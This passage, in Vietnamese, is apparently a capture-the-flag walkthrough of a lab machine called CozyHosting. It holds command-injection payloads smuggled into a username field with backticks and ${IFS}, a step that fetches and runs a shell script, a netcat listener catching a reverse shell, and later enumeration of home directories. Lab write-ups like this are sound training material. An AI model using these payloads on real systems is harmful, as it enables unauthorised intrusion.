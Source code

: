 Quay lại http server để kiểm tra

```python
┌──(root㉿kali)-[/home/kali]
└─# python3 -m http.server 2345
Serving HTTP on 0.0.0.0 port 2345 (http://0.0.0.0:2345/) ...
10.10.11.230 - - [09/Oct/2023 04:37:38] "GET /rce.sh HTTP/1.1" 200 -
```

Thay đổi permission của file RCE (burp request)

```python
host=10.10.14.65&username=`chmod${IFS}777${IFS}/tmp/rce.sh`
```

Tạo listener trên máy attack

```python
┌──(root㉿kali)-[/home/kali]
└─# nc -lnvp 5555
listening on [any] 5555 ...
```

Chạy RCE 

```python
host=10.10.14.65&username=`bash${IFS}/tmp/rce.sh`
```

Quay lại listener

```python
┌──(root㉿kali)-[/home/kali]
└─# nc -lnvp 5555
listening on [any] 5555 ...
connect to [10.10.14.65] from (UNKNOWN) [10.10.11.230] 43542
bash: cannot set terminal process group (1043): Inappropriate ioctl for device
bash: no job control in this shell
app@cozyhosting:/app$ id
id
uid=1001(app) gid=1001(app) groups=1001(app)
app@cozyhosting:/app$ 
```

*Lưu ý: trong toàn bộ quá trình tạo RCE, nếu bị mất kết nối thì reload trang sessions để lấy sessiong mới của kanderson*

## SSH

```python
app@cozyhosting:/tmp$ ls /home
ls /home
josh
```

Tôi có 1 user tên *josh*

```python
app@cozyhosting:/app$ ls -la
ls -la
total 58856
drwxr-xr-x  2 root root     4096 Aug 14 14:11 .
drwxr-xr-x 19 root root     4096 Aug 14 14:11 ..
-rw-r--r--  1 root root 60259688 Aug 11 00:45 cloudhosting-0.0.1.jar
```
